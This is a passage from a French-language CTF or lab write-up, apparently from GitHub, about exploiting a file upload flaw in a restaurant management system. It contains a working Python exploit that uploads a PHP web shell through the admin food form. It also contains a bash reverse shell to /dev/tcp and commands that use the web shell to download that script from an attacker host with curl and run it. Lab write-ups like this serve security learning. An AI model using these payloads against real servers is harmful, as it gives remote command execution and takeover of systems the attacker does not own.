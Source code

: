 ```python
    "Content-Type": "multipart/form-data;boundary=---------------------------191691572411478",
    "Connection": "close",
    "Referer": "http://localhost:8081/rms/admin/foods.php",
    "Cookie": "PHPSESSID=4dmIn4q1pvs4b79",
    "Upgrade-Insecure-Requests": "1"

}
 
data = """
-----------------------------191691572411478
Content-Disposition: form-data; name="photo"; filename="reverse-shell.php"
Content-Type: text/html

<?php echo shell_exec($_GET["cmd"]); ?>
-----------------------------191691572411478
Content-Disposition: form-data; name="Submit"

Add
-----------------------------191691572411478--
"""
r = requests.post(target,verify=False, headers=headers,data=data,
proxies={"http":"http://127.0.0.1:8080"})

print("[+] Shell Uploaded. Please check the URL :"+url+"images/reverse-shell.php")

```

En capturant la requête avec BurpSuite, je remarque que l’upload fonctionne (je n’ai pas eu de retour dans mon terminal). Puis en accédant au répertoire */rms/images/reverse-shell.php*, j’ai pu remarquer que le fichier était bien présent et que je vais pouvoir exécuter des commandes pour pouvoir obtenir un reverse-shell ! 

![Untitled 8](https://user-images.githubusercontent.com/68467919/210107925-5ba4a78f-114f-4454-9712-afb5a4c3a006.png)

![Untitled 9](https://user-images.githubusercontent.com/68467919/210107983-254285e6-921b-47e3-8f83-3db09d76ca82.png)

L’exploit fonctionne bien. Je vais désormais upload un script en bash pour pouvoir obtenir un reverse-shell.

*script.sh*

```python
#!/bin/bash

bash -i >& /dev/tcp/ip/1337 0>&1
```

```bash
/reverse-shell.php?cmd=curl http://ip:4445/script.sh -o script.sh
```

![Untitled 10](https://user-images.githubusercontent.com/68467919/210107997-ef8c767e-5032-4654-9029-952dab484a86.png)

```bash
/reverse-shell.php?cmd=bash script.sh
```
